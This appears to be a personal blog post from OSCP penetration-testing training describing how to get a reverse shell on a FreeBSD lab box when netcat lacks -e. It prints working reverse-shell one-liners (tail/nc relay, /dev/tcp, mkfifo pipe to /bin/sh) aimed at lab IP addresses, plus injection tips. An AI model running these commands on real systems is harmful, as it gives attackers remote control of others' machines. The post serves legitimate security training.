 ```yaml
---
title: 'Using netcat without -e'
date: 2017-08-26 01:37
categories: security
tags: netcat hack learn
featured_image: '/images/posts/netcat-a-swiss-army-tool-1-638.jpg'
lead_text: 'Okay, okay, this is some kind of insiders thing. If you dont know what Im talking about from the title of this article, then there is nothing to see. Please move along!'
---
```


Recently in my OSCP course, I was struggeling a few hours to get a reversed shell connection. It was a FreeBSD box, not quite my expertise. Finally I came up with a simple solution using _tail -f_.

<img src="/images/posts/netcat_freebsd.jpg" 
     alt="Netcat on FreeBSD"
     class="media pull-right img-thumbnail">
I immediately found that netcat was installed, but ofcourse [without the e-option](https://www.google.nl/search?q=netcat+GAPING_SECURITY_HOLE).
All references to netcat without -e suggest you use a backpipe 
to relay standard output from commands piped from netcat to `/bin/bash`
back into netcat. After trying harder for many many many tries, I finally 
came up with the following simple solution.

1. Use _tail -f_ to feed commands from a temporary file to bash. (Using _-n 0_ to ignore any current content of the temporary file.)
2. Redirect the output of the shell command to netcat.
3. Redirect the output of netcat to the temporary file, so the tail command picks it up...

The result looks like:

```console
tail -n 0 -f /tmp/1 | /bin/sh 2>&1 | nc -nv 10.11.0.49 443 1> /tmp/1
```

That's awsome! But don't forget, all your commands are stored in the /tmp/1 file... (ツ)

From many other options I found, none seemed to work. A quick test showed that the famous 
[/dev/tcp/&lt;ip&gt;/&lt;port&gt;](http://www.gnucitizen.org/blog/reverse-shell-with-bash/) 
did not work either. The following command did not result in any response on my machine.

```console
echo foo > /dev/tcp/10.11.0.13/443
```

Ofcourse, after having rooted the machine, I was still wondering whether other options found on the internet could work too. In my case I was able to execute multiple commands by separating them with a semicolon. This way a pipe is created first, followed by: netcat reading input from that pipe, netcat redirecting output to bash, bash redirecting stderr and stdout to the pipe again.

```console
mkfifo pipe; nc -nv 10.11.0.13 443 < pipe | /bin/sh 2>pipe >pipe 
```

## Wrap up
To wrap up, which things slowed me down finding a way to obtain a reverse shell?
1. Not understanding the _mkfifo pipe_ command. This command makes a pipe in the _current_ directory. So not having any rights there, just really does not help...
2. Forgetting that the & character should be url encoded _and_ not by using &amp;. This made me lose the stderr output, that just really does not help either...
3. When _uname -a_ gives back "FreeBSD ... amd64" you probably should not try your Linux/x86 binaries. Oke, but where/how do I get a FreeBSD/amd64 payload?
4. Oh, and last: _chmod +x_ did not work, _chmod 777_ did the job... (◔_◔)

_If at first you don't succeed, try, try, try harder!_
